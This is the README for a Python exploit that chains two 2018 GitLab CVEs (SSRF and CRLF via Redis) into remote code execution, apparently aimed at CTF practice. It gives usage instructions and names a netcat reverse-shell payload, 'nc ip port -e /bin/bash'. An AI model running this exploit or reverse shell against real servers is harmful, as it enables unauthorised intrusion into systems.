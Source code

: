 # Gitlab RCE - Remote Code Execution
RCE for old gitlab version &lt;= 11.4.7

This an exploit for old Gitlab versions. The vulnerability is from 2018 so this shouldnt work in the wild but it still seems to be popular in CTFs. 
Educational use only. Illegal things are illegal.

CVEs: CVE-2018-19571 (SSRF) + CVE-2018-19585 (CRLF)

credits: 

  https://www.youtube.com/watch?v=LrLJuyAdoAg - LiveOverflow  
  https://github.com/jas502n/gitlab-SSRF-redis-RCE - jas502n
  
usage:

  python gitlab_rce.py target-url(http://gitlab:port) local-ip
  
  You might or might not have to tweak this a bit. For example the redis port (6379) might be different for your target or you might want to change the payload "nc ip port -e /bin/bash" might only work in some CTFs - I would have used a more common reverse shell but the characters mess with encoding. 
